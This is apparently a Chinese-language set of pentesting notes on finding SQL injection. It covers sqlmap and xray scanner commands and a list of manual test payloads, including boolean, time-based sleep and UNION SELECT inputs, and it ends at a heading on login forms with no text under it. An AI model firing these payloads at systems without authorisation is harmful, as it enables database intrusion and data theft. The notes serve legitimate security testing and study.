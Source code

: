 ```shell
┌──(root㉿kali)-[~]
└─# sqlmap --beep --batch --level 5 --risk 2 --random-agent -r /Path/FileName.txt --dbs
```

## 3 xray

直接使用 Chrome 代理到 xray 被动扫描

```powershell
PS C:\Users\sec> xray webscan --listen 127.0.0.1:7777 --html-output scan.html
```

扫描出 SQL 注入漏洞后使用 ChatGPT 判断报告中 Payload 的类型, 然后在 Google 查找同类型的 Payload 手动注入

## ==未归纳==

## 手动

验证 sql 注入的方法

```
id=1' 
id=1"
> 看是否报错
id=1/1
id=1/0
> 看是否有不同（数据包，响应时间）
```

```
id=1' and '1' ='1
id=1' and 1=1#
id=1' and 1=1-- 
id=1' and 1=1--+
id=1' waitfor delay '0:0:5'--+
id=1' union select 1,@@VERSION,3--+

0%27XOR(if(now()=sysdate()%2Csleep(3)%2C0))XOR%27Z
若存在 SQL 注入则睡眠 3 秒
```

判断 sql 查询类型

```
id=1'||(seletc '')||'
id=1'||(seletc '' from dual)||'
```

在 SQL 查询中，`OR` 运算符具有短路求值的逻辑。这使得在查询中加入恒为真的条件（如 `1=1`）会使得整个 `WHERE` 子句总为真，从而返回所有记录。

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1
```

登录框处的 sql 注入
